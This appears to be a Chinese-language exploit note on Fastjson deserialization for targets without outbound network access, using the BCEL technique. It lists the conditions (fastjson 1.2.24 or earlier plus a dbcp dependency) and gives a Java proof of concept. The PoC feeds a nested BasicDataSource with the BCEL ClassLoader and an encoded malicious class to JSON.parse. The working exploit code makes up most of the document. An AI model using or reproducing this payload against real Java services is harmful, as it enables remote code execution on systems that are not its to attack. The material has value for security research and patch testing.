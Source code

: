[http://www.bmth666.cn/2022/10/19/Fastjson%E9%AB%98%E7%89%88%E6%9C%AC%E7%9A%84%E5%A5%87%E6%8A%80%E6%B7%AB%E5%B7%A7/index.html](http://www.bmth666.cn/2022/10/19/Fastjson%E9%AB%98%E7%89%88%E6%9C%AC%E7%9A%84%E5%A5%87%E6%8A%80%E6%B7%AB%E5%B7%A7/index.html)



# 不出网利用
## bcel
[https://forum.butian.net/share/2040](https://forum.butian.net/share/2040)

<font style="color:rgb(36, 41, 47);">fastjson≤1.2.24</font>

<font style="color:rgb(36, 41, 47);">条件:</font>`<font style="color:rgb(199, 37, 78);">BasicDataSource</font>`<font style="color:rgb(36, 41, 47);">只需要有</font>`<font style="color:rgb(199, 37, 78);">dbcp</font>`<font style="color:rgb(36, 41, 47);">或</font>`<font style="color:rgb(199, 37, 78);">tomcat-dbcp</font>`<font style="color:rgb(36, 41, 47);">的依赖即可，dbcp即数据库连接池，在java中用于管理数据库连接，还是挺常见的。</font>

<font style="color:rgb(36, 41, 47);">poc</font>

```java
package org.example;

import com.alibaba.fastjson.JSON;


public class FastJsonBcel {
    public static void main(String[] args){
        String payload2 = "{\n" +
                "    {\n" +
                "        \"ki10\":{\n" +
                "                \"@type\": \"org.apache.tomcat.dbcp.dbcp2.BasicDataSource\",\n" +
                "                \"driverClassLoader\": {\n" +
                "                    \"@type\": \"com.sun.org.apache.bcel.internal.util.ClassLoader\"\n" +
                "                },\n" +
                "                \"driverClassName\": \"$$BCEL$$$l$8b$I$A$A$A$A$A$A$AuQ$cbN$db$40$U$3d$938$b1c$9c$e6A$D$94$a6o$k$81E$zPw$m6$V$95$aa$baM$d5$m$ba$9eL$a7a$82cG$f6$84$a6_$c4$3a$hZ$b1$e8$H$f0Q$88$3b$sM$pAG$f2$7d$ce9$f7$dc$f1$d5$f5$e5$l$Ao$b0$e1$c2$c1$b2$8b$V$3cr$b0j$fcc$hM$X$F$3c$b1$f1$d4$c63$86$e2$be$8a$94$3e$60$c8$b7$b6$8e$Z$ac$b7$f17$c9P$JT$q$3f$8d$G$5d$99$i$f1nH$95z$Q$L$k$k$f3D$99$7cZ$b4$f4$89J$Z$9a$81$88$H$fep$87$ff$dc$fd$a1$o$ff$3bOu$3f$8d$p$ff$f0L$85$7b$M$ce$be$I$a7C$Y$81$gA$9f$9fq_$c5$fe$fb$f6$e1X$c8$a1VqD$d7$ca$j$cd$c5$e9G$3e$cc$c8I$t$83$db$89G$89$90$ef$94$ZV2t$af$N$d6C$J$ae$8d$e7$k$5e$e0$r$a9$ma$c2$c3$x$ac1$y$de$c3$eda$j$$$c3$ea$ffE2T3$5c$c8$a3$9e$df$ee$f6$a5$d0$M$b5$7f$a5$_$a3H$ab$Bip$7bR$cf$92Fk$x$b8s$87$W$b1$e4X$K$86$cd$d6$5c$b7$a3$T$V$f5$f6$e6$B$9f$93X$c84$r$40eHM$9d$ad$7f$94p$ni$z$9b$7e$9c990$b3$y$d9$F$ca$7c$f2$8c$7ca$fb$X$d8$qk$7bd$8b$b7E$94$c9z$d3$f8$B$w$e4$jTg$60$9e$91$B$f5$df$c8$d5$f3$X$b0$be$9e$c3$f9$b0$7d$81$e2$q$ab$97$I$5b$40$3ec$5c$a2$c8$a0K$844$af$5d$s$96$gE$7f$t$94aQ$5e$a7l$91$3e$h$b9$c0$c6C$8b$g$8dL$d4$d2$N_$9f$94$o$82$C$A$A\"\n" +
                "        }\n" +
                "    }: \"Moc\"\n" +
                "}";
        JSON.parse(payload2);
    }
}
```

